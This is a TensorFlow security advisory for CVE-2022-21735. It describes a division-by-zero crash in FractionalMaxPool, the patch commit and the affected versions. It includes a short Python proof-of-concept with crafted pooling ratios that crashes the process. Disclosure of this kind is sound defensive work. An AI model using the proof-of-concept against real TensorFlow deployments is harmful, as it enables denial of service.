 ## TFSA-2022-014: Division by zero in `FractionalMaxPool`

### CVE Number
CVE-2022-21735

### Impact
The [implementation of `FractionalMaxPool`](https://github.com/tensorflow/tensorflow/blob/5100e359aef5c8021f2e71c7b986420b85ce7b3d/tensorflow/core/kernels/fractional_max_pool_op.cc#L36-L192) can be made to crash a TensorFlow process via a division by 0:

```python
import tensorflow as tf
import numpy as np

tf.raw_ops.FractionalMaxPool(
  value=tf.constant(value=[[[[1, 4, 2, 3]]]], dtype=tf.int64),
  pooling_ratio=[1.0, 1.44, 1.73, 1.0],
  pseudo_random=False,
  overlapping=False,
  deterministic=False,
  seed=0,
  seed2=0,
  name=None)
```

### Patches
We have patched the issue in GitHub commit [ba4e8ac4dc2991e350d5cc407f8598c8d4ee70fb](https://github.com/tensorflow/tensorflow/commit/ba4e8ac4dc2991e350d5cc407f8598c8d4ee70fb).

The fix will be included in TensorFlow 2.8.0. We will also cherrypick this commit on TensorFlow 2.7.1, TensorFlow 2.6.3, and TensorFlow 2.5.3, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Faysal Hossain Shezan from University of Virginia.

